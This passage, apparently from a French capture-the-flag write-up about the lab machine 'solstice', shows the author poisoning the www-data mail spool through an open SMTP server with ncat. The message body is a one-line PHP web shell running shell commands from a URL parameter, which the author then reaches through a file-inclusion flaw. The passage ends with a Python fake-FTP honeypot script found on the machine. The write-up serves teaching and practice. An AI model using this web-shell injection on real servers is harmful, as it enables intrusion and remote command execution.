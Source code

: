 Je peux inclure `/var/spool/mail/www-data`, ça tombe bien, car un serveur SMTP est accessible. Je vais pouvoir envoyer un mail à `www-data` pour écrire dans ce fichier comme sur le CTF [Underdist #3]({% link _posts/2023-01-01-Solution-du-CTF-Underdist-3-de-VulnHub.md %}).

```console
$ ncat 192.168.56.163 25 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.163:25.
220 solstice ESMTP Exim 4.92 Sat, 08 Apr 2023 12:45:19 -0400
HELO solstice
250 solstice Hello solstice [192.168.56.1]
MAIL FROM: zozo@hacker.com
250 OK
RCPT TO: www-data
501 www-data: recipient address must contain a domain
RCPT TO: www-data@solstice
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
start<?php system($_GET["cmd"]); ?>end
.
250 OK id=1plBhP-0000b7-Og
QUIT
221 solstice closing connection
```

Avec cette exécution de commande, je fouille sur le système. Je découvre que l'un des ports est un honeypot :

```python
import socket

"""
while(true):

   def server():
       sx = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
       sx.bind(("0.0.0.0", 62524))
       sx.listen(5)
       print("[*] Starting the server")
       cx,addr = sx.accept()
       print("[!] Connection received from %s" % str(addr))
       cx.send("220 FreeFloat Ftp Server (Version 1.00).\r\n")

    if (sx.close):
        server()
"""

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.bind(("0.0.0.0", 62524))

s.listen(1)

while True:

  c, addr = s.accept()

  # Receive request
  data = c.recv(1024)
  if data != "something":
    c.sendall("220 FreeFloat Ftp Server (Version 1.00).\r\n")
    c.close()
  else:
    c.sendall("220 FreeFloat Ftp Server (Version 1.00).\r\n")
    c.close()
```